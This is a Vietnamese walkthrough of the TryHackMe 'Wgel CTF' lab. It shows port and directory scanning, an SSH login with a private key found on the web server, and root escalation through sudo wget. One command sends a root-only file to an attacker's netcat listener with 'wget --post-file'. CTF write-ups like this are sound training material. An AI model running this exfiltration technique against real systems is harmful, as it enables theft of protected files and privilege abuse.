 # [THM] Wgel CTF write-up

- IP: 10.10.131.127

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.131.127

![Nmap scan](./img/nmap-scan.png)

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Giao diện web 
![Web interface](./img/web-interface.png)

Tiếp tục scan bằng công cụ fuff để tìm thư mục ẩn 
> ffuf -u "http://10.10.131.127/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![ffuf-scan](./img/ffuf-scan.png)
![Sitemap-interface](./img/sitemap-interface.png)

Sau khi khám phá `/sitemap` và dường như không thấy thông tin gì hữu ích nên tiếp tục dò quét xem sau `/sitemap` còn thư mục ẩn nào hữu ích không.
![ffuf scan 2](./img/ffuf-scan2.png)

Ta thấy có điều đặc biệt là thư mục .ssh cùng kiểm tra xem có gì không nhé
Đây là thứ chúng ta tìm kiếm được trong thư mục đó
![ssh key](./img/ssh-key.png)

Khi đã có file ssh key thì ta cần tìm kiếm user name để kết nối ssh. Điều đặc biệt đã tìm kiếm được ở source code của default page
![Default source](./img/source-default.png)

Sử dụng username tìm được trong source code và ssh key để ssh và đã truy cập được shell của user
![User shell](./img/user-shell.png)

## user.txt
Sử dụng câu lệnh dưới để tìm kiếm file flag
> find . -name *flag*

![User flag](./img/user-flag.png)


## Privilege Escalation
Ta nhận thấy user hiện tại có thể thực thi `/usr/bin/wget` với quyền root mà không cần mật khẩu vậy nên ta sẽ tận dụng nó để leo thang đặc quyền
![Sudo -l](./img/sudo-l.png)

Cần setup **netcat listener** để lắng nghe trên máy kali 
> nc -lvnp 1234

## root.txt
Sau đó sử dụng wget chạy câu lệnh `sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.21.113.26:1234` để có thể lấy được root flag với đường dẫn có thể dự đoán tương tự như user_flag.txt
![Root flag](./img/root-flag.png)
